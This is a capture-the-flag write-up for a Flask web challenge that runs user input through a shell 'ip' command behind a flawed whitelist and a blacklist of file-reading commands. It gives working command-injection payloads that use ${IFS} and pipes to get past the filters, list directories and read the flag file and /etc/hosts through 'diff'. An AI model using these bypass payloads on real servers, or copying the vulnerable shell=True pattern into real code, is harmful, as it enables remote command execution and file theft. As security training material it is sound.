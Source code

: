## Description

I used to work as a network engineer at a prominent company, but I found myself unjustly terminated. The cause? Our network administrator inadvertently shut down a critical interface and then placed the blame on my shoulders to salvage his own reputation.
Remarkably, I still retain access to the very panel we once utilized to oversee the network architecture of the company. Now, I seek a talented hacker to exact revenge on my behalf, I am prepared to offer a handsome reward to anyone who could breach this panel's security. Do you possess the expertise and audacity to help me reclaim justice ?

**source code available**

## Solution

when visiting the site we get this :

![mainpage](images/mainpage.png)

let's check the source code :

```python
from flask import Flask, render_template, request
import subprocess

whitelist = ["address", "link", "maddress" , "neighbor", "netconf", "ntable", "route", "rule", "tcpmetrics", "token"]
blacklist = [" ", "&", ";", "cat", "-", "less", "more", "head", "tail", "nl", "awk", "sed", "echo","tac", "rev", "strings", "paste", "cut","sort", "fmt", "xxd", "ob"]

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/', methods=['POST'])
def ip():
    option = request.form['option']
    if any(character in option for character in blacklist):
        return "Malicious input detected."

    if not any(opt in option for opt in whitelist):
        return f"Sorry, but only these options are availabe: {whitelist}"

    try:
        result = subprocess.run(f"ip {option} show", shell=True, capture_output=True, text=True)
        return f'{result.stdout}'
    except Exception as e:
        return f'Error: {e}'

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000,debug=True)
```

okey, so first we notice that our input is getting passed to a shell command as so `ip OUR_INPUT show`, this makes it potentially vulnerable to command injection, but there is some protection in place, we have a whitelist and a blacklist.

we can't use `&` or `;` to break the command into pieces cause they're blacklisted, but there is another operator which is `|` and `||` to achieve that and they are not blacklisted.

now the problem is in the whitelist, as we need to only specify only words that are in that list, at least this is what the developer intended to do, but if look carefully, it only checks if at least one word of the whitelist is in our input, it doesn't check if all of our input is in the whitelist.

this means we only need to use one of the words in the whitelist once in our input to bypass that.

we know how to bypass both checks, now comes the part where we have to construct our command.

if we send this payload `${IFS}link|ls||` the final command will be :

```bash
ip link|ls|| show
```

let's breakdown this command:

- first we used `${IFS}` cause the space is blacklisted, and `${IFS}` will result into a space.
- second we used `link` to include a word from the whitelist and in same time to make the first command work successfully.
- we used `|ls` to break the command and execute another command which is `ls`.
- then we used `||` which is the `Logical OR Operator`, we used this to skip the rest, cause if we specify the `||` operator, if the first command executes successfully, the second command will be skipped.

now let's try our command :

![cmd1](images/cmd1.png)

we see that the command executed successfully, now let's search for the flag, first we check in `/`, we can do that with this input `${IFS}link|ls${IFS}/||` :

![cmd2](images/cmd2.png)

we found the flag which is in `/flage4a423147c.txt`, now a new problem emerges, we cannot read the flag as pretty much every builtin bash command to read files is blacklisted.

my teammate suggested to use the `diff` command, the diff command in linux is used to compare the content of two files or directories and displays the differences between them, so if we compare the flag with literately any other file, we should get the content of both files since it's obvious that they will be different.

let's try to compare the flag with the `/etc/hosts` file, we can do that with this input `${IFS}link|diff${IFS}/flage4a423147c.txt${IFS}/etc/hosts||`, let's try it out :

![flag](images/flag.png)

- flag: `shellmates{S1l3nc3d_S3rv3r5___Ech0_Just1c3}`
